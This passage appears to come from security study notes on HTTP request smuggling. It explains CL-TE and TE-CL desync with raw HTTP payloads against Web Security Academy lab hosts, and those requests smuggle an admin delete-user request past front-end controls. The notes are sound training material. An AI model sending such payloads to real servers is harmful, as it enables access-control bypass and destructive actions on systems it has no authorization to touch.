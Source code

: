 If the attack is successful, then everything from `GET /404` onwards is treated by the back-end server as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:

```
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

## Bypass security measures

In some applications, the front-end web server is used to implement some security controls, deciding whether to allow individual requests to be processed. Allowed requests are forwarded to the back-end server, where they are deemed to have passed through the front-end controls.

{% hint style="warning" %}
In this case let auto update Content-Lenght
{% endhint %}

#### CL-TE

```
POST / HTTP/1.1
Host: 0a9c004503b61d0480369ede00d900cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 141
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=

```

#### TE-CL

```
POST / HTTP/1.1
Host: 0ad500cc0356c15b8114f7aa009b0007.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
```